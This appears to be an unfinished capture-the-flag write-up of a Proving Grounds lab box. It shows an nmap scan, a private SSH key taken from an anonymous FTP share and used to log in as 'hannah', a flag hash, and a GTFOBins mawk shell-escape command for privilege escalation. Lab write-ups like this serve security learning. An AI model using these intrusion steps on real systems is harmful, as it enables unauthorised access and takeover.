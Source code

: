 nmap

| Port      | State | Service | Version       |
| --------- | ----- | ------- | ------------- |
| 21/tcp    | open  | ftp     | vsftpd 3.0.3  |
| 61000/tcp | open  | ssh     | OpenSSH 7.9p1 |

Initially i only get back the ftp port, byt after running nmap on all ports we get get back that ssh on p 61000. 

The ftp port has anon login so i'll take a look at that first. 

```php
ls -la
```

```php
drwxr-xr-x    3 0        115          4096 Aug 06  2020 .
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .hannah
```

I cd into .hannah

```php
-rwxr-xr-x    1 0        0            1823 Aug 06  2020 id_rsa
```

I try the ssh id_rsa but get asked for a password. Maybe i need to brute-force.

```php
kali@192.168.190.130
```

I forgot to set the permissions of the file

```php
chmod 600 id_rsa
```

```php
ssh -i id_rsa hannah@$IP -p 61000
```

I  can now login as the user hannah.

I get the first flag from local.txt
`68ecb2a32d693aa0ee9feab360333749`

**Linpeas**

SUID
usr/bin/cpulimit
/usr/bin/mawk

https://gtfobins.github.io/gtfobins/mawk/

```php
sudo mawk 'BEGIN {system("/bin/sh")}'
```

Unfortunately, my time ran out on proving grounds, so i'll have to wait to finish it off. 